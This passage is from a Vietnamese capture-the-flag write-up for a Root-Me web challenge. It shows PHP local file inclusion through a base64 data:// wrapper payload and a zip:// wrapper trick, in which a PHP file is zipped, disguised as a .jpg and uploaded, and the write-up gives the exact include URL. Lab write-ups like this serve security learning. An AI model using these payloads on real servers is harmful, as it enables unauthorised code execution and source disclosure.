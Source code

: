 ```
data://text/plain;base64,PD9waHAlMjBwaHBpbmZvKCk7JTIwPz4=
```

![1](img/54/Screenshot%20from%202023-01-31%2021-38-51.png)

- Đến đây, chắc có lẽ ta cần sử dụng cổng upload này để upload command lên server, sau đó, dùng wrapper để chạy file. Ta sử dụng đến wrapper `zip://` để đọc file từ zip vì có lẽ server chặn các cổng data mất rồi:

`
< pre><?php show\_source('index.php'); ?></pre>;
`

- Đặt tên là s.php, sau đó zip file lại s.zip, rename s.jpg , sau đó upload lên server:

![1](img/54/Screenshot%20from%202023-01-31%2022-03-07.png)

- Chú ý đến cấu trúc URL: <http://challenge01.root-me.org/web-serveur/ch43/index.php?page=view&id=pDv6piIjS>

- Lúc này, page đang load một filename có id là `pDv6piIjS` khác với image name của ta. Server đã upload lên `/tmp/upload/image\_id.jpg`. Sử dụng zip wrapper truy cập đến `/tmp/upload/pDv6piIjS.jpg%23s,` server sẽ tự concat thêm ‘.php’ cho ta để có câu request hoàn chỉnh:

`?page=zip://tmp/upload/pDv6piIjS.jpg%23s**.php`
